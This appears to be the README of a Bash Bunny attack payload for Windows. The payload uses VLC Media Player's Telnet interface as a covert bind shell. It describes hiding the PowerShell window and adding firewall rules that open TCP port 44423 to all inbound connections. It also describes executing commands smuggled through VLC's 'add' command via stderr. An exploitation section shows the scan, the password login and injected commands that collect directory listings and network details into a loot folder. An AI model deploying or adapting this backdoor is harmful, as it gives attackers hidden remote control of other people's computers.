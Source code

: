 # "VideoLan VLC Media Player" Bind Shell

- Title:         "VideoLan VLC Media Player" Bind Shell
- Author:        TW-D
- Version:       1.0
- Target:        Microsoft Windows
- Category:      Remote Access

## Concept

In the list of commands allowed by "VideoLan VLC Media Player" on the "Telnet" interface, the use of the command "add" with a wrong argument redirects to the "stderr" of the process the exact content of this argument. The PowerShell script listens to the "stderr" output of the "VideoLan VLC Media Player" process and retrieves the payload to execute it.

## Description

1) Hide "PowerShell" window.
2) Determines the path of the "VLC Media Player" executable.
3) Creates two rules on the native firewall of "Microsoft Windows" to :
- Allow the executable to open a TCP port.
- Allow all incoming connections on that TCP port.
4) Starts the "VLC Media Player" executable with the "Telnet" interface enabled.
5) Redirects the standard error output of this process and retrieves the payload for execution.

## Configuration

From "payload.txt" change the values of the following constants :
```bash

######## INITIALIZATION ########

readonly BB_LABEL="BashBunny"
readonly TELNET_PORT="44423"
readonly TELNET_PASSWORD="VLC_T3LN3T"

```

## Exploitation

```
hacker@hacker-computer:~$ nmap -Pn -sT -p 44423 <TARGET-IP>
[...]
hacker@hacker-computer:~$ telnet <TARGET-IP> 44423
Trying <TARGET-IP>...
Connected to <TARGET-IP>.
Escape character is '^]'.
VLC media player 3.0.18 Vetinari
Password: <TELNET_PASSWORD>
Welcome, Master
> add "EXEC/(ls C:\Users\) > .\..\..\loot\ls.log"
> add "EXEC/(ipconfig) > .\..\..\loot\ipconfig.log"
> shutdown
```